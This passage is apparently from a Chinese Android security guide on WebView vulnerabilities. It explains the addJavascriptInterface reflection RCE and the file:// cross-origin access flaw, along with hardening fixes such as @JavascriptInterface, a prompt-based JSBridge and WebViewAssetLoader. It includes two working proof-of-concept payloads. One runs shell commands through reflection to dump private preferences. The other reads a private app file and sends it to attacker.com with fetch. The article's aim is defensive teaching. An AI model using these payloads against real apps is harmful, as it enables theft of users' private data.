




# 5.2.5.5 WebView 安全

在 Android 混合开发（Hybrid App）架构中，WebView 作为承载 Web 开放生态和 H5 业务的核心容器，是不可或缺的底层组件。然而，WebView 长期以来一直是 Android 操作系统的“第一大安全重灾区”。在实际工程实践中，由于 WebView 跨越了 Web 浏览器安全模型（同源策略）与 Native 操作系统安全模型（Linux UID 沙箱机制），导致了巨大的安全鸿沟。

本篇将从 WebView 安全的演进脉络与核心痛点出发，深度解剖五大经典高危漏洞 of 物理攻击链路、底层漏洞成因及源码级修复方案，并最终沉淀一份面向现代 Android 应用的 WebView 安全加固治理方案。

---

## 1. WebView 安全的演进与核心痛点

### 1.1 为什么 WebView 是 Android 系统的第一大安全重灾区？

WebView 漏洞频发并长期占据 Android 漏洞榜首，其根本原因在于其处于**双重安全模型的交汇与冲突中心**：

```
                    +------------------------------------+
                    |        Web 安全模型 (SOP 同源策略)   |
                    +------------------------------------+
                                      |
                         (WebView 桥接与混合容器)
                                      |
                    +------------------------------------+
                    |     Native 安全模型 (Linux UID 沙箱) |
                    +------------------------------------+
```

#### 1. 同源策略（SOP）与沙箱隔离的边界混淆
在 Web 浏览器世界中，安全的核心是**同源策略（Same-Origin Policy）**，它通过“协议+域名+端口”来划分信任边界，限制不同源的脚本或文档互相访问。然而在操作系统（Linux）世界中，安全的核心是**基于进程 UID 的沙箱隔离**，每个 App 拥有独立的进程和私有数据目录（`/data/data/<package_name>`）。

当 WebView 引入混合容器架构后，这两套安全机制在此处发生了激烈的碰撞与混淆。如果 WebView 允许 JavaScript 访问本地文件系统（`file://` 协议）或直接调用 Native 提供的 JavaBridge 接口，Web 域的不可信代码就获得了穿透同源策略、直接操纵宿主 App 进程权限的能力，从而威胁到整个操作系统的沙箱边界。

#### 2. 多进程架构与内存破坏漏洞的滞后演进
传统的 PC 浏览器（如 Chrome、Edge）很早就实现了强力的多进程沙箱隔离，将渲染引擎（V8/Blink）隔离在无系统权限的受限进程中。而 Android WebView 在很长一段时间内（Android 8.0 之前）是**单进程模式**，即 WebView 的渲染、JS 引擎运行与 App 本身运行在同一个进程中。

这意味着，一旦 WebKit/Blink 引擎中出现任何内存破坏漏洞（如 Use-After-Free、越界读写等），攻击者就可以通过恶意网页直接实现远程代码执行（RCE），接管整个宿主 App 的进程，窃取数据库、SharedPreference 等所有私有数据。

#### 3. 系统组件更新滞后与碎片化
在 Android 5.0 之前，WebView 组件是深度集成在 Android 系统 ROM 中的。这意味着 WebView 的引擎版本只能随着系统 OTA 升级而更新。由于国内安卓设备碎片化严重，大量旧版本系统的 WebView 引擎终身无法得到安全补丁更新，导致已知的历史漏洞（如 V8 漏洞、网络库漏洞）可以长期被攻击者利用。自 Android 5.0 起，Google 将 WebView 剥离为独立的 APK（System WebView），支持通过应用商店动态更新，并在 Android 7.0 后将 Chrome 引擎作为 WebView 的后端，这一状况才得以缓解。

### 1.2 混合容器的核心痛点：双重安全模型的冲突

混合容器的本质是“借网下鱼”，即在 Native 应用中内嵌一个微型的 Web 浏览器引擎。Web 浏览器引擎的设计初衷是**展示不可信的互联网内容**，因此其安全设计理念是“绝对防御”，即把所有网页视为潜在的攻击者，不允许网页触碰系统底层的任何敏感 API，且网页之间必须通过同源策略进行隔离。

然而，混合容器的设计初衷却是**赋予网页运行 Native 能力**。为了实现 H5 页面调用摄像头、扫码、分享、读取本地联系人等功能，开发者必须在 WebView 中实现 Java 与 JavaScript 的双向桥接（JSBridge）。这种桥接机制在同源策略上撕开了一个巨大的口子：一旦不可信的第三方网页通过某种手段（如中间人劫持、XSS 注入、DNS 欺骗）被加载到了 WebView 中，该网页就可以通过 JSBridge 直接调用宿主应用暴露出来的所有特权接口，进而控制整个宿主应用。

### 1.3 核心机制设计初衷：JSBridge 的诞生与演进背景

在混合架构开发之初，为了解决 H5 性能低迷、无法调用硬件设备的问题，行业急需一种轻量级、高效率的跨语言调用通道。Blink/WebKit 引擎在 C++ 层设计了 JavaBridge 模块。该模块的初衷是**将 Java 对象直接映射为 WebKit 内部的 NPObject（Netscape Plugin Object）**，从而在 JS 的 Window 对象上生成一个同名的包装对象。

这种设计的优势在于“直观”和“高效”，JS 开发者可以像调用本地 JS 函数一样，直接以同步阻塞的方式调用 Native Java 方法。然而，正是这种将 Java 对象生命周期与方法元数据直接暴露给 V8 引擎的设计，为后来的任意代码执行漏洞埋下了祸根。

### 1.4 WebView 在内核层的渲染流水线与内存漏洞隐患

为了理解为什么 WebView 容易遭到内存漏洞（如远程代码执行 RCE）攻击，我们必须了解 Blink 引擎在内核层的渲染流水线。

当 WebView 尝试加载一个 HTML 页面时，底层 C++ 的渲染流水线包括以下核心步骤：
1. **网络流接收**：通过 Blink 内部的网络模块接收到 HTML 字节流。
2. **HTML 解析**：由 `HTMLDocumentParser` 类将字节流转换为 Tokens，并由 `HTMLTreeBuilder` 逐步构建出标准的 DOM（Document Object Model）树。
3. **CSS 解析**：由 `CSSParser` 解析关联的 CSS 样式规则，并附着在 DOM 节点上，计算出每个节点的样式。
4. **Layout 布局计算**：Blink 遍历 DOM 树，过滤掉隐藏节点，生成 Layout 树（或 Render 树），计算出每个 DOM 节点在屏幕上的绝对几何坐标。
5. **分块与光栅化（Rasterization）**：为了提升滚动性能，Blink 将页面划分为多个 Tiles，并在合成器（Compositor）中利用 Skia 图形库将 Tiles 渲染成位图，最终通过 Surface 提交给系统的 SurfaceFlinger 进行屏幕合成。

在这套包含数十万行底层 C++ 代码的流水线中，涉及到频繁的内存申请、指针生命周期管理以及多线程同步（如 UI 线程、渲染线程、合成器线程之间的通信）。由于 C++ 的野指针、Use-After-Free（内存释放后重用，UAF）、以及堆栈缓冲区溢出等缺陷非常难以杜绝，黑客一旦精心构造包含特定样式或 DOM 节点变动序列的 HTML/JS 代码，就能导致 Blink 引擎的内存指针混乱，从而劫持 CPU 寄存器的执行流，在 App 的单进程上下文中强行执行攻击 Shellcode。

### 1.5 双端交互性能与安全的权衡探讨

在混合容器架构的设计过程中，安全防护并不是没有代价的。很多高强度的安全防护策略往往伴随着性能开销和业务逻辑复杂度的成倍上升。

1. **禁用 JavaScript 支持的不可行性**：从绝对安全的角度来看，调用 `WebSettings.setJavaScriptEnabled(false)` 可以拦截绝大多数 Web 漏洞攻击（如 XSS 和 JSBridge 注入）。但对于现代混合容器而言，这无异于因噎废食。失去了 JS，H5 页面不仅无法进行任何动态渲染，连最基础 of 业务表单校验、前端路由和动态逻辑都将无法运行，因此开发者必须接受“JS 带来的安全隐患”，并在应用层通过白名单等机制予以围剿。
2. **虚拟 HTTPS 映射（AssetLoader）的性能开销**：使用 `WebViewAssetLoader` 代替传统的 `file://` 加载本地资源，虽然彻底解决了同源域穿透隐患，但它依赖于 `shouldInterceptRequest` 回调。该回调需要在 Java 虚拟机线程和 Chromium 引擎线程之间发起跨线程 IPC 拦截，并将本地静态文件读取为 `InputStream` 传入 C++ 层的物理缓冲区。与直接由 C++ 底层以高速底层 I/O 读取本地磁盘的 `file://` 文件相比，映射机制在流拷贝和线程切换上带来了一定的耗时损耗。特别是在大批量、多图片、多小文件并发载入的复杂业务页面中，会造成轻微的首屏耗时增加。

---

## 2. 核心漏洞与修复方案的深度解剖

---

### 漏洞一：addJavascriptInterface 任意代码执行漏洞（CVE-2012-6636）

#### 1. 漏洞原理：Java 桥接对象的反射机制与 JVM 元数据泄漏

`addJavascriptInterface(Object object, String name)` 用于将一个 Java 对象注入到 JavaScript 的全局上下文（`window` 对象）中，使得 JS 可以直接调用 Java 对象的方法，实现 H5 与 Native 的双向通信。

在 Android 4.2（API 17）之前，底层的 Java-Bridge 机制存在严重的逻辑缺陷。当 JS 引擎解析到对注入对象的调用时，Blink 引擎通过 JNI 查找 Java 对象的公有方法。由于 Java 中的所有类都隐式继承自 `java.lang.Object`，并且反射机制允许通过一个类的实例获取其 `Class` 对象，因此被注入的 Java 对象也暴露出其基类 `java.lang.Object` 的 `getClass()` 方法。

在 Java 虚拟机中，每一个 Java 类在装载到内存后，都会在方法区（元空间 Metaspace）维护其类元数据。通过 `Object.getClass()` 得到的 `java.lang.Class` 实例，是通往该类元数据的钥匙。因为 JVM 并没有对反射方法的调用者进行沙箱安全域的阻断，当运行在 WebView（JS 环境）中的不可信 JS 代码获取到 `Class` 实例后，可以通过反射直接跨越类加载器的限制，加载 JVM 元空间中的任何核心系统类。

一旦攻击者控制的恶意网页加载到该 WebView 中，JS 就可以通过以下反射链条：
1. 调用注入对象的 `getClass()` 获取其 `java.lang.Class` 实例。
2. 通过 `Class.forName("java.lang.Runtime")` 加载系统的 `java.lang.Runtime` 类。
3. 反射调用 `Runtime.getRuntime()` 方法，获取当前应用的运行时实例。
4. 调用 `Runtime.getRuntime().exec(...)` 执行任意 Linux Shell 命令。

#### 2. 物理攻击链路深度剖析

当受害者运行含有该漏洞的 App 并加载了攻击者的恶意网页（如通过中间人劫持、恶意广告、跨站脚本 XSS 等方式注入的页面）时，攻击的底层调用链路如下：



利用反射执行恶意命令的 PoC 代码示例如下：

```javascript
function exploit() {
    for (var obj in window) {
        if (window[obj] && window[obj].getClass) {
            try {
                // 1. 获取 Runtime 类
                var runtime = window[obj].getClass().forName("java.lang.Runtime");
                // 2. 获取 getRuntime 方法
                var getRuntime = runtime.getMethod("getRuntime", null);
                // 3. 实例化 Runtime 对象
                var runtimeInstance = getRuntime.invoke(null, null);
                // 4. 执行命令：向攻击者服务器发起反弹 Shell，或者窃取沙箱文件并写入 SD 卡
                runtimeInstance.exec([
                    "/system/bin/sh", 
                    "-c", 
                    "cat /data/data/" + window[obj].getClass().forName("android.app.ActivityThread").getMethod("currentPackageName", null).invoke(null, null) + "/shared_prefs/* > /sdcard/stolen_prefs.txt"
                ]);
                alert("Exploit Successful!");
                break;
            } catch (e) {
                console.error("Exploit failed for object: " + obj, e);
            }
        }
    }
}
```

在这段 PoC 中，攻击者执行了命令 `/system/bin/sh`。由于该子进程是由宿主 App 进程派生出来的，因此它拥有与宿主 App **完全一致的 UID 权限**。这意味着，该进程可以直接读取 `/data/data/<package_name>/` 下的所有文件，包括私有 SQLite 数据库（内含敏感的用户登录凭证、加密密钥、个人隐私等），甚至可以通过网络库将这些文件直接上传给攻击者的服务器。如果运行在已 Root 的设备上，攻击者还可以通过执行 `su` 直接获取超级用户权限，从而彻底控制整台安卓设备。

#### 3. Android 4.2（API 17）引入 @JavascriptInterface 的底层逻辑

为了彻底阻断基于反射的任意代码执行路径，自 Android 4.2（API 17）起，Blink 引擎与 Java 框架层引入了 `@JavascriptInterface` 注解防范机制。其核心底层逻辑如下：

1. **方法白名单导出**：在 Native 层的 `java_bridge_dispatcher.cc` 中，当解析并构建 Java 对象在 JS 环境中的属性表时，引擎会通过 JNI 读取该 Java 类中所有被 `java.lang.annotation.Annotation` 标记的方法。
2. **注解校验过滤**：在底层的 JavaBridge 逻辑中，当 V8 引擎尝试绑定或调用 Java 方法时，底层会强制调用 Java 层的反射 API 去检索目标方法是否声明了 `android.webkit.JavascriptInterface` 这一特定的注解。如果该方法上不存在这个注解，则在 Native 的方法导出列表里会被直接剔除。
3. **反射阻断**：由于 `java.lang.Object` 中的 `getClass()`、`hashCode()`、`toString()` 等基础方法并未（也不可能）被标记 `@JavascriptInterface`，因此在 JS 运行环境中，这些方法在 JS 桥接对象上是直接不可见的。当 JS 尝试调用 `window.interfaceName.getClass` 时，JS 引擎会直接返回 `undefined` 并抛出 `TypeError`，从而在源头上切断了获取 `Class` 对象的反射通路。

#### 4. V8 引擎对 C++ 与 Java 绑定底层的内存管理风险

在底层的 C++ JavaBridge 实现中，为了维护 Java 对象在 JS 运行环境中的生存状态，Chromium 需要在 JNI 层为 Java 对象创建一个 `Global Reference`（全局引用），以防止在 JS 异步回调触发前该 Java 对象被 JVM 垃圾回收机制回收。

然而，这也引入了复杂的双垃圾回收器（V8 GC 与 JVM GC）协同生存期的问题：
*   **内存泄露风险**：如果注入的 Java 对象间接持有了 `Activity` 的引用，且 JS 环境由于闭包机制一直持有注入对象的 NPObject 引用，会导致 V8 引擎不释放全局 JNI 引用，使得宿主 App 的 Activity 无法被垃圾回收，引起严重的 OOM。
*   **内存野指针漏洞**：在低于 API 19 的某些定制引擎中，由于 C++ 层在处理 JNI 析构和 V8 Context 释放时，没有正确地在主线程同步清除 Global Reference，可能触发 Use-After-Free 漏洞，导致攻击者能够直接通过 JS 脚本对 C++ 内存堆进行越界读取，这也是当年各大安卓浏览器被远程 Root 的核心手段之一。

#### 5. 历史遗留版本（API < 17）的安全桥接方案

如果应用不得不兼容 Android 4.2 以下的极老旧系统，绝对不能直接使用 `addJavascriptInterface`。业界成熟的替代方案是**利用 `WebChromeClient` 拦截 `prompt()` 机制**。

当 JS 调用 `prompt()` 时，会触发 Java 端的 `WebChromeClient.onJsPrompt()` 回调。因为 `prompt()` 是 Web 规范中的同步阻塞方法，JS 引擎会暂停执行，等待 Native 返回数据。我们可以通过在 `prompt()` 中传递带有特定安全协议头（如 `jsbridge://`）的 JSON 字符串来实现安全调用。

以下是完整的生产级安全桥接代码实现：

##### JS 端封装 (bridge.js)
```javascript
(function() {
    var JSBridge = {
        call: function(service, action, params, callback) {
            // 1. 将回调函数保存在全局，并生成唯一的回调 ID
            var callbackId = 'cb_' + (new Date().getTime()) + '_' + Math.random().toString(36).substr(2, 9);
            window[callbackId] = function(result) {
                if (callback) {
                    callback(result);
                }
                // 执行完后释放内存
                delete window[callbackId];
            };
            
            // 2. 构造符合安全规范的 Bridge 协议 URL
            var payload = {
                service: service,
                action: action,
                params: params,
                callbackId: callbackId
            };
            
            // 3. 通过 prompt 发送给 Java 层，格式为：jsbridge://call?data=JSON_STRING
            var uri = 'jsbridge://call?data=' + encodeURIComponent(JSON.stringify(payload));
            var result = prompt(uri);
            
            // 如果是同步调用，可以直接从 prompt 的返回值获取结果
            return result;
        }
    };
    window.JSBridge = JSBridge;
})();
```

##### Java 端路由与反射白名单派发 (JSBridgeDispatcher.java)
```java
package com.security.webview;

import android.net.Uri;
import android.text.TextUtils;
import android.webkit.JsPromptResult;
import android.webkit.WebView;
import org.json.JSONArray;
import org.json.JSONObject;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class JSBridgeDispatcher {
    
    // 维护一个安全的业务接口白名单映射表
    private static final Map<String, Object> sExposedServices = new HashMap<>();

    public static void registerService(String name, Object service) {
        sExposedServices.put(name, service);
    }

    public static String dispatch(WebView webView, String message) {
        if (TextUtils.isEmpty(message) || !message.startsWith("jsbridge://")) {
            return null;
        }

        try {
            Uri uri = Uri.parse(message);
            String actionPath = uri.getQueryParameter("data");
            if (TextUtils.isEmpty(actionPath)) {
                return null;
            }

            JSONObject json = new JSONObject(actionPath);
            String serviceName = json.optString("service");
            String actionName = json.optString("action");
            JSONObject params = json.optJSONObject("params");
            final String callbackId = json.optString("callbackId");

            // 1. 从安全的白名单容器中获取 Java 对象
            final Object service = sExposedServices.get(serviceName);
            if (service == null) {
                return "{\"code\": 404, \"msg\": \"Service Not Found\"}";
            }

            // 2. 安全反射调用：限制只允许调用显式声明的特定业务类中的方法，且不涉及任何 ClassLoader 操作
            final Method method = service.getClass().getMethod(actionName, JSONObject.class, BridgeCallback.class);
            
            // 3. 回调封装
            BridgeCallback callback = new BridgeCallback() {
                @Override
                public void onComplete(JSONObject response) {
                    if (!TextUtils.isEmpty(callbackId)) {
                        // 异步回调：通过 evaluateJavascript 执行 JS
                        final String js = "javascript:window." + callbackId + "(" + response.toString() + ");";
                        webView.post(new Runnable() {
                            @Override
                            public void run() {
                                if (android.os.Build.VERSION.SDK_INT >= android.os.Build.VERSION_CODES.KITKAT) {
                                    webView.evaluateJavascript(js, null);
                                } else {
                                    webView.loadUrl(js);
                                }
                            }
                        });
                    }
                }
            };

            // 执行反射调用
            Object syncResult = method.invoke(service, params, callback);
            if (syncResult != null) {
                return syncResult.toString(); // 支持同步返回值
            }

        } catch (Exception e) {
            e.printStackTrace();
            return "{\"code\": 500, \"msg\": \"Internal Dispatch Error: " + e.getMessage() + "\"}";
        }
        return "{\"code\": 200, \"msg\": \"Async Call Initiated\"}";
    }

    public interface BridgeCallback {
        void onComplete(JSONObject response);
    }
}
```

##### WebChromeClient 中集成安全校验
```java
public class SafeWebChromeClient extends WebChromeClient {
    
    private boolean isTrustedUrl(String url) {
        // 在此处嵌入前文所述的严密域名白名单校验逻辑
        if (url == null) return false;
        Uri uri = Uri.parse(url);
        String host = uri.getHost();
        return "https".equals(uri.getScheme()) && 
               (host != null && (host.equals("mycompany.com") || host.endsWith(".mycompany.com")));
    }

    @Override
    public boolean onJsPrompt(WebView view, String url, String message, String defaultValue, JsPromptResult result) {
        // 必须校验当前加载该网页的 URL 是否是受信任的白名单域
        if (isTrustedUrl(url) && message != null && message.startsWith("jsbridge://")) {
            String response = JSBridgeDispatcher.dispatch(view, message);
            result.confirm(response); // 同步将结果返回给 Web 侧
            return true;
        }
        
        // 非受信域名的 prompt 请求一律拦截或交由系统默认处理
        result.cancel();
        return true;
    }
}
```

这种拦截方案相比直接注入 Java 对象，其安全优势极其明显：首先，它彻底阻断了 Native 的反射反射链路，JS 无法通过包装的 `Object` 对象去间接调用 `getClass`。其次，所有的接口注册、解析、派发都由 Java 层的手写机制严格管控，开发者拥有了绝对的“白名单白匹配”控制权。即使 H5 页面被攻破，攻击者也只能调用开发者主动暴露出来的业务方法，绝对无法控制系统的底层组件。

---

### 漏洞二：跨源域敏感文件访问漏洞（File Access）

#### 1. 同源策略与 `file://` 协议的安全边界冲突

同源策略（Same-Origin Policy, SOP）是 Web 安全的基石，它限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。一个“源”由**协议、主机名（Host）和端口号**共同定义。

然而，当 WebView 允许使用本地文件系统协议（`file://`）时，同源策略的定义就变得模糊不清了。在标准的 `file://` 协议中，**没有域名和端口号**，只有文件路径。那么，在本地加载的两个文件（例如 `file:///data/data/com.app/cache/evil.html` 和 `file:///data/data/com.app/shared_prefs/user_info.xml`）是否属于“同源”？

在 Blink/WebKit 引擎的早期设计中，有三种不同的同源判定模式：
1. **完全同源模式**：认为所有本地 `file://` 路径下的文件都属于同一个源。在这种模式下，一个被恶意写入本地存储的文件，可以通过 JS 直接读取 App 私有目录下的任何其他文件。
2. **完全隔离模式**：认为每个 `file://` 文件都是一个完全独立的源。在这种模式下，本地 HTML 文件甚至无法读取其同目录下的本地图片和 CSS。
3. **混合安全开关控制**：即通过 `WebSettings` 的开关来决定同源边界。

在 Android 中，以下三个 API 决定了 WebView 的文件访问边界：

*   `setAllowFileAccess(boolean)`：控制是否允许 WebView 使用 `file://` 协议加载本地文件系统中的网页。
*   `setAllowFileAccessFromFileURLs(boolean)`：控制运行在 `file://` 上下文中的 JavaScript 是否能够通过 `XMLHttpRequest` 或 `Fetch` 读取**其他**本地 `file://` 资源。
*   `setAllowUniversalAccessFromFileURLs(boolean)`：控制运行在 `file://` 上下文中的 JavaScript 是否能够发起**跨源网络请求**（如访问 `http://` / `https://` 域，或者读取任意其他本地 `file://` 资源）。

#### 2. 物理攻击链路与 XSS 放大效应分析

当应用开启了 `setAllowFileAccessFromFileURLs(true)` 和 `setAllowUniversalAccessFromFileURLs(true)` 时，攻击者可以通过以下链路窃取 App 私有目录（如数据库、SharedPreference）中的敏感数据：



在真实的业务中，该漏洞的攻击链路往往更加复杂和隐蔽。例如：
1. **漏洞触发**：某即时通讯（IM）应用提供网页预览和本地文件传输功能。当用户接收到好友发送的 HTML 网页文件（如 `evil.html`）后，直接在应用内点击预览。
2. **本地文件载入**：WebView 载入了受害者的本地文件 `file:///sdcard/Download/evil.html`。
3. **敏感文件读取**：如果应用的 `setAllowFileAccessFromFileURLs` 配置为了 `true`，`evil.html` 中执行的 JS 脚本能够通过标准的 `XMLHttpRequest` 跨源读取本地私有路径下的敏感文件：`xhr.open("GET", "file:///data/data/com.security.im/databases/chat_history.db", true)`。
4. **数据渗出**：由于应用同时开启了 `setAllowUniversalAccessFromFileURLs(true)`，JS 脚本在读取文件流并进行 Base64 编码后，能够突破跨域限制，使用 `fetch()` 或 `XMLHttpRequest` 发送一个跨源 HTTP 请求，直接将受害者的本地聊天数据库文件上传给远程攻击者的服务器。

##### XSS（跨站脚本攻击）在 WebView 中的放大效应
传统的 Web 浏览器中，XSS 漏洞只能危害当前域的 Session 或 Cookie，攻击范围被牢牢限制在浏览器沙箱内。但在 WebView 中，XSS 漏洞的危害会被成倍放大。

一旦宿主应用的 WebView 开启了文件访问协议与不安全的 JSBridge，H5 页面上的 XSS 漏洞就能直接升级为 Native 沙箱穿透漏洞。攻击者通过在 H5 网页中植入包含 `fetch("file:///data/data/package/databases/...")` 逻辑的 XSS 脚本，由于 WebView 的本地文件访问控制权限过大，该脚本即可跨源窃取整个手机 App 的敏感数据库，彻底颠覆了移动客户端的沙箱防御基线。

利用 XMLHttpRequest 窃取敏感文件的 PoC 代码示例如下：

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>Exploit</title>
</head>
<body>
    <script>
        function readAndLeak() {
            var xhr = new XMLHttpRequest();
            // 目标：读取宿主应用的私有 SharedPreference 配置文件
            xhr.open('GET', 'file:///data/data/com.security.targetapp/shared_prefs/user_session.xml', true);
            xhr.onreadystatechange = function() {
                if (xhr.readyState === 4) {
                    var content = xhr.responseText;
                    // 将读取到的文件内容通过 Base64 编码
                    var base64Content = btoa(unescape(encodeURIComponent(content)));
                    // 跨源发送到攻击者控制的服务器
                    var leakUrl = 'https://attacker.com/leak?data=' + base64Content;
                    
                    // 利用 Fetch API 将数据发出
                    fetch(leakUrl, { method: 'GET', mode: 'no-cors' })
                        .then(() => alert("Stolen data sent!"))
                        .catch(err => console.error("Leak failed", err));
                }
            };
            xhr.send();
        }
        window.onload = readAndLeak;
    </script>
</body>
</html>
```

#### 3. Android 版本默认行为演进与限制

为了堵住这一严重的沙箱穿透隐患，Android 系统在各个版本中逐步收紧了上述 API 的默认行为。具体变更细节已归档在 [AndroidVersionChangeLog.md](../../../../AndroidVersionChangeLog.md) 中，其核心演进如下：

*   **Android 4.1（API 16）起**：`setAllowFileAccessFromFileURLs` 与 `setAllowUniversalAccessFromFileURLs` 的默认值从 `true` 变更为 `false`。
*   **Android 10（API 29）/ Android 11（API 30）起**：当应用的 Target SDK 等于或高于 30 时，`setAllowFileAccess(boolean)` 的默认值从 `true` 变更为 `false`。这意味着即便开发者不主动配置，WebView 默认也无法通过 `file://` 协议加载外部存储或 App 私有目录中的本地 HTML。但值得注意的是，WebView 依然默认允许通过 `file:///android_asset/` 和 `file:///android_res/` 加载应用内部的静态资源包。

#### 4. 现代安全替代方案：WebViewAssetLoader 底层剖析

`WebViewAssetLoader`（在 Jetpack `androidx.webkit:webkit` 库中提供）可以将本地资源（Asset、Resource、Internal Storage）虚拟映射为安全的 HTTPS 域名（例如 `https://appassets.androidplatform.net/assets/...`）。

##### 源码机制分析
